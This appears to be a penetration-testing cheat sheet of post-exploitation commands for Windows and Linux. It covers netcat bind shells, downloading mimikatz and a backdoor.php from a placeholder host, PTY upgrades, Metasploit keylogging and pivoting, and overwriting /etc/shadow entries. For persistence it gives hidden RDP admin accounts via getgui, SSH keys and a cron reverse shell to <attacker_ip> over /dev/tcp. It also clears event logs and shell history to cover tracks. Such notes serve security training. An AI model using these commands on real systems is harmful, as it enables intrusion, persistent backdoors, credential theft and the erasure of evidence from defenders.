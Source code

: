 # 3 - Post-Exploitation

## $\color{#009466}\textbf{General}$

<details>

<summary>$\huge{\text{Bind Shell}}$</summary>

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.

* Windows (target)
  * `nc -nvlp <PORT> -e cmd.exe` or `nc.exe -nvlp <PORT> -e cmd.exe`
* Linux (target)
  * `nc -nvlp <PORT> -e /bin/bash`
* Linux (attacker)
  * `nc -nv <IP> <PORT>`
* Windows (attacker
  * `nc.exe -nv <IP> <PORT>`

\


</details>

<details>

<summary>$\huge{\text{Transfer files}}$</summary>

* Windows
  * `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
* Linux
  * `wget http://<host>/backdoor.php`
* Netcat
  * `nc -nvlp 1234 > test.txt (recepient)`
  * `nc -nv <ip> <port> < test.txt (sender)`

\


</details>

<details>

<summary>$\huge{\text{Interactive shell}}$</summary>

* Linux
  * `/bin/bash -i`

\


</details>

<details>

<summary>$\huge{\text{Fully interactive shell}}$</summary>

* Python
  1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` or `python -c 'import pty;pty.spawn("/bin/bash")'`
  2. Press `CTRL + Z` : to background process and get back to your host machine
  3. `stty raw -echo; fg`
  4. `export TERM=xterm`

\


</details>

<details>

<summary>$\huge{\text{Keylogger}}$</summary>

* Metasploit
  * `keyscan_start` : start keylogger
  * `keyscan_dump` : print captured strokes

\


</details>

<details>

<summary>$\huge{\text{Pivoting}}$</summary>

* Metasploit (in meterpreter)
  * `ipconfig` : find subnet (the host may be in other network)
  * `run autoroute -s <subnet>` : **This means anytime we want to contact a machine within one of the networks specified, we will go through meterpreter session and use that to connect to the targets.**
    * Example:
      * `ipconfig` : IP 19.9.29.148. Netmask: 255.255.240.0
      * `run autoroute -s 10.10.0.29.0/20`
  * `run autoroute -p` : Displays active routing table.
  * auxiliary/scanner/portscan/tcp : We can perform the scan. NOTE: scanning with metasploite is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding.
  * **since target\_sys\_2 does not have a route back to attacker\_sys, use bind\_shell payload** : windows/meterpreter/bind\_tcp
* Port forwarding (meterpreter/metasploit)
  * `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>` : Forward remote port to local port. In this case we want to scan the port 80 of the target 2
  * `portfwd list`
  * `nmap -sV -sC -p 1234 localhost`

\


</details>

<details>

<summary>$\huge{\text{Change user password}}$</summary>

* Linux
  * `openssl passwd -1 -salt <salt> <new_pass>`
    * \-1 means weakest algorithm, -6 means strongest
    * Copy the generate entry and add it to root record in /etc/shadow
* Windows
  * `net user <username> <new_pass>`

\


</details>

## $\color{#009466}\textbf{Windows}$

<details>

<summary>$\huge{\text{Enumeration}}$</summary>

* System info
  * `systeminfo`
  * `whoami` : Get current user
  * `whoami /priv` : Get current user privileges. Useful for privelage escalation
  * `wmic qfe get Caption,HotFixID,InstalledOn,Description` : Get installed updates. Useful to see security patch
  * `net localgroup` : Adds, displays, or modifies local groups
  * `net localgroup <group>` : Get group membership of user -> `net localgroup administrators`
  * `net user <user>` : Get user info
* Network Info
  * `ipconfig /all`
  * `netstat -ano` : lists info on tcp/udp ports
  * `netsh advfirewall show allprofiles` : shows f/w status
  * `arp -a` : display arp table (arp cache to discover other IP addresses on the target network)
  * `route print` : print route table (useful during the pivoting phase of post-exploitation as it can reveal network routes)
* Processes & Services
  * `net start` : lists services running
  * `wmic service list brief` : same as above with extra details like pid, active state, etc.
  * `net stop <servicename>` : stop a service
  * `tasklist /svc` : list process with respecive services
  * `schtasks /query /fo list /v` : list scheduled tasks
* Automation : JAWS - https://github.com/411Hall/JAWS
  * `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`

\


</details>

<details>

<summary>$\huge{\text{Persistence}}$</summary>

* Metasploit
  * search persistence module (Windows)
  * Ex: exploit/windows/local/persistence\_service
    * It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
    * When you want to connect again you need to set a listener to receive the connection
* Enable RDP
  * with metasploit : search enable\_rdp (and set session)
    * Connect to victim from attacker
      * Note: you need username and password, if you don't have the password : change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      * Note 2: you can create a new account and add it to administrator group...
  * second way with metasploit/meterpreter (auto create account and settings):
    * In meterpreter `run getgui -e -u user_you_want -p password_you_want`
      * enables rdp service --> creates new user with the provided parameters --> hides user from windows login screen --> adds user to Remote Desktop Users and Administrators group.

\


</details>

<details>

<summary>$\huge{\text{Clearing tracks}}$</summary>

* Metasploit/Meterpreter
  * `clearev` (clear the Application, System, and Security logs on a Windows system)

\


</details>

## $\color{#009466}\textbf{Linux}$

<details>

<summary>$\huge{\text{Enumeration}}$</summary>

* System info
  * `cat /etc/issue` Print linux distro version (Contains a message or system identification to be printed before the login prompt)
  * `uname -a` Print certain system information. One example : Useful for kernel privesc or to show architecture
  * `env` Print environment variables
  * `lscpu` : for hardware info
  * `free -h` : for RAM usage
  * `df -h` : for disk usage
  * `dpkg -l` : list packages installed with version
* Enumerate Users
  * `whoami`
  * `groups <user>`
  * `useradd -m <user> -s /bin/bash` : Creates a user. Useful for persistence
  * `usermod -aG root <user>` : Add bob to root group. Useful for persistence
  * `lastlog` : ssh session enumerate
  * `last` : log of users logged in
* Enumerate Network
  * We want: Current IP, Internal networks, TCP/UDP services running and their respective ports, Other hosts on the network
  * `ip a`
    * Useful to discover other network
  * `cat /etc/hostname` : display hostname
  * `cat /etc/hosts` : maps IP addresses to domain
    * Useful to discover internal domain you can access
  * `cat /etc/resolv.conf` : display the domain name server
    * Many times it is the default gateway
  * Meterpreter
    * `netstat` : Display the network connections
    * `route` : View and modify the routing table
      * Note: gateway is important... it can be a DNS server, DHCP server or all in one
    * `arp -a` : Display the host ARP cache
* Processes & services
  * `ps aux | grep root` : Useful for privesc
  * `top` dynamic real-time view of a running system (like task manager)
  * `crontab -l` : display cronjob for the root user
  * `ls -al /etc/cron*` : display all file that contains cronjob
  * `cat /etc/cron*` : display the contents of all cronjob files

\


</details>

<details>

<summary>$\huge{\text{Persistence}}$</summary>

* Metasploit
  * search persistence module (Linux)
    * Example: post/linux/manage/sshkey\_persistence (needed elevated privs - This module will add an SSH key to a specified user)
* Via SSH key
  * After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
* With cron jobs
  * Set up listener
  * `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron` : create a cronjob (every minute time format)
  * `crontab -i cron`
  * `crontab -l` : crontab for the current user
  * NOTE: if the command doesn't work try with another one... revshell

\


</details>

<details>

<summary>$\huge{\text{Clearing tracks}}$</summary>

* `history -c` : to clear history in linux
* `cat /dev/null > ~/.bash_history` : same as above

\


</details>
